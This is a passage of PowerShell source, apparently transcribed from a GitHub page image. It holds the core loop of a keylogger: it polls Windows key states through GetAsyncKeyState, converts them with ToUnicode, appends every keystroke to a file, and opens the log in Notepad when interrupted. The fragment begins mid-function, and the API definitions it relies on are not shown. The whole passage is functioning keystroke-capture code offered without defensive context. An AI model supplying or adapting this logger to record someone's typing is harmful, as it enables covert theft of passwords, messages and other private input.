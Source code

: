 ```powershell
  # create output file
  $null = New-Item -Path $Path -ItemType File -Force

  try
  {
    Write-Host 'Recording key presses. Press CTRL+C to see results.' -ForegroundColor Red

    # create endless loop. When user presses CTRL+C, finally-block
    # executes and shows the collected key presses
    while ($true) {
      Start-Sleep -Milliseconds 40
      
      # scan all ASCII codes above 8
      for ($ascii = 9; $ascii -le 254; $ascii++) {
        # get current key state
        $state = $API::GetAsyncKeyState($ascii)

        # is key pressed?
        if ($state -eq -32767) {
          $null = [console]::CapsLock

          # translate scan code to real code
          $virtualKey = $API::MapVirtualKey($ascii, 3)

          # get keyboard state for virtual keys
          $kbstate = New-Object Byte[] 256
          $checkkbstate = $API::GetKeyboardState($kbstate)

          # prepare a StringBuilder to receive input key
          $mychar = New-Object -TypeName System.Text.StringBuilder

          # translate virtual key
          $success = $API::ToUnicode($ascii, $virtualKey, $kbstate, $mychar, $mychar.Capacity, 0)

          if ($success) 
          {
            # add key to logger file
            [System.IO.File]::AppendAllText($Path, $mychar, [System.Text.Encoding]::Unicode) 
          }
        }
      }
    }
  }
  finally
  {
    # open logger file in Notepad
    notepad $Path
  }
}
```
